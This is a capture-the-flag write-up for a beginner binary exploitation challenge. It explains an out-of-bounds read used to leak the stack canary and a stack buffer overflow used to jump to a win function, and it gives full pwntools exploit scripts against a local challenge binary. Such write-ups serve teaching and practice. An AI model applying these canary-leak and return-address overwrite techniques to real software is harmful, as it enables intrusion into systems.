 This was the first pwn challenge in the event.
In my opinion, it was a nice and easy challenge to start with.
The binary exposes a simple functionallity to the user:
The F option will let the user fill a buffer on the stack. nothing to fancy and no buffer overflow is present.
The V option, will read a char from the buffer. The program won't do any boundy checks, so we have an OOB read primitve.
Lastly, when we EXIT, there is an obvious bufferoverflow:
```c
  char name[68];
  printf("Name Size : ");
  __isoc99_scanf("%d", &name_size);
  printf("Name : ");
  read(0, name, name_size);

```

We can give a `size > 68` and write after the name variable.

The binary is compiled with stack canary, so in order to control the saved RIP, we would have to leak the canary,
We can use the V option to read after the buffer, and leak the canary. here is how I did it:

```py
from pwn import *

p = process('./main')

def view(idx):

	p.sendline("V")
	p.sendline(str(idx))
	p.recvuntil(f"Index {idx} : ")
	return p.recvline()[:-1]

canary = view(131) + view(130) + view(129) + b"00"

canary = int("0x" + canary.decode(), 16)
```
we know that every stack canary will start with a nullbyte, and the binary is 32bit, so the canary is only 4 bytes. thats why we need just 3 bytes to be leaked.
Then, when we know the canary we can exploit the bufferoverflow and jump to the win function:

```py
from pwn import *

p = process('./main')

def view(idx):

	p.sendline("V")
	p.sendline(str(idx))
	p.recvuntil(f"Index {idx} : ")
	return p.recvline()[:-1]

canary = view(131) + view(130) + view(129) + b"00"

canary = int("0x" + canary.decode(), 16)
win = 0x8049304


p.sendline(b"E")
p.sendline("1000") #read tons of chars
p.sendline(64 * b"A" + p32(canary) + b"BBBB" + p32(win))

p.interactive()
```
